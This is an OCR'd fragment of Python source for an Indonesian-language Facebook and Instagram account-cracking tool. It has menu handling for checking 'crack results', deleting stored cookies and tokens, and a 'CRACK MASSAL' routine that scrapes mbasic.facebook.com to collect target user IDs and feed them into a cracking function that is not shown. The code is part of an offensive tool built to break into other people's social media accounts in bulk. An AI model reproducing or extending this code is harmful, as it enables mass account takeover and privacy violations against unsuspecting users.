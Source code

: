 					if jumlah<6001:
						self.saran(f"{self.url}/friends/center/suggestions",jumlah)
					else: 
						exit('\n%s%s Max 6000 user'%(M,til))
			except requests.exceptions.ConnectionError:
				exit('\n\n%s%s tidak ada koneksi%s\n'%(M,til,N))
			except ValueError:
				exit ('\n%s%s isi yang benar'%(M,til));jeda(2)
		elif slut in['9','09']:
			checkin()
		elif slut in['aa','a','AA','A']:
			useragent()
		elif slut in['10']:
			print ("\n%s%s%s 01 %sCek hasil akun facebook "%(U,til,P,O))
			print ("%s%s%s 02 %sCek hasil akun instagram "%(U,til,P,O))
			print ("%s%s%s 03 %sHapus hasil crack "%(U,til,P,O))
			print ("%s%s%s 00 %sKembali "%(U,til,M,O))
			rom = input('\n%s# %sPilih %s> %s'%(P,O,M,K))
			cek_cek(rom)
		elif slut in['11']:
			file_cp()
		elif slut in['12']:
			ingfoh()
		elif slut in['RM','Rm','rm']:
			print ('\n%s%s menghapus data login dari termux '%(M,til));jeda(1)
			try:
				os.remove("data/cookies")
				os.remove("data/token.txt")
				os.remove("data/my_info")
			except:
				os.system("rm -rf data/cookie && rm -rf data/token && rm -rf data/my_info")
			jalan('\n%s√ berhasil terhapus '%(H))
			exit()
		elif slut in['0','00']:
			exit ('\n')
		
		if len(self.id)!=0:
			print
			return Crack().romiy(self.id)
		#else:
			#exit (f'{M}{til} gagal mengambil ID ')
			
	# CRACK MASSAL
	def MassalGRAPH(self, token):
		try:
			jum = int(input('%s%s %sJumlah target%s > %s'%(U,til,O,M,K)))
			print ("\n%s%s %sPastikan daftar teman bersifat publik "%(U,til,O))
		except:jum=1
		for t in range(jum):
			t +=1
			idt = input('%s%s %sUsername/Id %s%s%s > %s'%(U,til,O,P,t,M,K))
			if idt in['']:
				print
			elif(re.findall("\w+",idt)):
				r = requests.get("https://mbasic.facebook.com/"+idt).text
				try:
					user = re.findall('\;rid\=(\d+)\&',str(r))[0]
				except:
					user = idt
		